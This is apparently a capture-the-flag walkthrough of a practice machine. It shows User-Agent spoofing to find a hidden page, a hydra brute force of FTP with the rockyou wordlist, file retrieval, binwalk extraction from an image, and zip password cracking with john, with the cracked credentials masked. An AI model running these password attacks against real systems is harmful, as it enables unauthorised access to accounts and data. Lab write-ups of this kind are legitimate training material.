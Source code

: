 ```
Visit: `http://<ip>` Changed User-Agent \[[Link](https://www.searchenginejournal.com/change-user-agent/368448/)\], redirected: `http://<ip>/agent_C_attention.php`, Found name Agent C.

```
<pre class="wp-block-code">```
Attention *****,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R

```
```

Crack FTP: `hydra -t 32 -l ***** -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp` \[[LINK](https://www.binarytides.com/crack-ftp-passwords-with-thc-hydra-tutorial/)\]

```
<pre class="wp-block-code">```
[21][ftp] host: <ip>  login: *****   ****password: *****

```
```

Logged into FTP `ftp <ip>`, ran `mget *` to get all the files.

Examine images: `binwalk`, extracted image data: `binwalk -e cutie.png`.

Installed `sudo apt install 7zip` \[[Link](https://ubuntuforums.org/showthread.php?t=1416364), [Link](https://super-unix.com/ubuntu/ubuntu-extracting-zip-file-fails-giving-error-need-pk-compat-v5-1/)\] `7z e 365.zlib`.

Cracking zip file \[[Link](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)\]: `zip2john 8702.zip > 8702.hashes`, `john 8702.hashes`

```
<pre class="wp-block-code">```
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
*****            ****(8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE 2/3 (2022-07-08 01:35) 2.222g/s 101044p/s 101044c/s 101044C/s 123456..ferrises
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```
```
